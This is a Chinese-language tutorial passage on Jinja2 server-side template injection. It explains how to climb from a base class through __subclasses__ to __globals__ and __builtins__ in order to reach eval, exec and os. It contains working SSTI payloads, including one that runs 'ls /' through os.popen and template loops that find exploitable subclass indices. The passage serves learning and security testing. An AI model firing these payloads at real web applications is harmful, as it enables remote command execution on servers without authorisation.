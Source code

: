### 探索

你可以看到，现成的很多 payload 都是前人总结出来的，但凡是都有个开始，比如——如何从一个基类开始，去寻找一个可用的 payload 呢？

这里我们在拿到基类后，选取一个拥有初始化和全局的对象：

![image-20231130171847472](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737774.png)

我们可以看到，返回中的“`'__builtins__'`”有  **对象** (  `'xxx': <class 'xxx'>` ) ，也有 **内建函数** ( `<built-in function xxx>` )，再往后则有 **模块** (比如 `'_os': <module 'os' from '/usr/local/lib/python3.9/os.py'>`)：

当然这里的模块其实已经可以直接用了：`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['_os'].popen('ls /').read()}}`

![image-20231130190521154](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737386.png)

不过到这就结束了未免太没意思，其实内建函数也有很多可用的方法，下面我们取出 `'__builtins__'` 的内容：

`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['__builtins__']}}`

![image-20231130190805905](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737514.png)

我们可以看到很多内建的函数：

![image-20231130190834331](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737706.png)

接下来就是找和文件或者命令有关的函数，不用担心，内建函数在Python官方拥有成熟的文档，你可以随时查阅：[内置函数](https://docs.python.org/zh-cn/3/library/functions.html)

```
eval()
exec()
open()
__import__()
```

### ==模板语法示例==

`{{ variable_name }}`：显示一个变量的值。例如 `{{ config }}` 可以显示配置文件的值。

`{% if ... %} ... {% endif %}`：条件语句，用于基于特定条件显示不同的内容。

`{% for item in sequence %} ... {% endfor %}`：循环语句，用于遍历序列（如列表或字典）并对每个元素执行操作。

`{{ variable_name|filter_name }}`：对变量应用过滤器。

```python
## 序号查找
{% set ns = namespace(counter=0) %}
 {% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ ns.counter}}
    {% endif %}
    {% set ns.counter = ns.counter + 1 %}
{% endfor %}

## 类名格式化输出
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__name__ }} <br>
    {% endif %}
{% endfor %}
```
